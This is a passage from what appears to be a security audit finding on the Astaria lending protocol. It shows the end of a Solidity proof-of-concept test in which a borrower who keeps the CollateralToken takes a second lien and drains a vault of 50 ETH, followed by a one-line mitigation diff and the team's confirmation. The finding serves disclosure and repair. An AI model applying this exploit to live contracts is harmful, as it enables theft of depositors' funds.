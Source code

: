 ```solidity

  // WETH balances at this moment:
  // 1. the borrower keep holding the 100 ETH it borrowed earlier;
  // 2. the vault keeps holding 50 ETH of liquidity.
  assertEq(WETH9.balanceOf(address(this)), 100 ether);
  assertEq(WETH9.balanceOf(address(publicVault)), 50 ether);

  // The borrower creates another lien. This time, the borrower is not the owner of the collateral NFT.
  // However, it's still the owner of the CollateralToken.
  (, stack) = _commitToLien({
    vault: publicVault,
    strategist: strategistOne,
    strategistPK: strategistOnePK,
    tokenContract: tokenContract,
    tokenId: tokenId,
    lienDetails: blueChipDetails,
    amount: 50 ether,
    isFirstLien: true
  });

  // The borrower has taken a loan of 50 ETH from the vault.
  assertEq(WETH9.balanceOf(address(this)), 150 ether);
  // The vault was drained.
  assertEq(WETH9.balanceOf(address(publicVault)), 0 ether);
}
```

### Recommended Mitigation Steps

Consider settling the auction at the end of `settleLiquidatorNFTClaim`:

```diff
diff --git a/src/ClearingHouse.sol b/src/ClearingHouse.sol
index 5c2a400..d4ee28d 100644
--- a/src/ClearingHouse.sol
+++ b/src/ClearingHouse.sol
@@ -228,5 +228,7 @@ contract ClearingHouse is AmountDeriver, Clone, IERC1155, IERC721Receiver {
       0,
       s.auctionStack.stack
     );
+    uint256 collateralId = _getArgUint256(21);
+    ASTARIA_ROUTER.COLLATERAL_TOKEN().settleAuction(collateralId);
   }
 }
```

**[androolloyd (Astaria) confirmed](https://github.com/code-423n4/2023-01-astaria-findings/issues/480)**



***
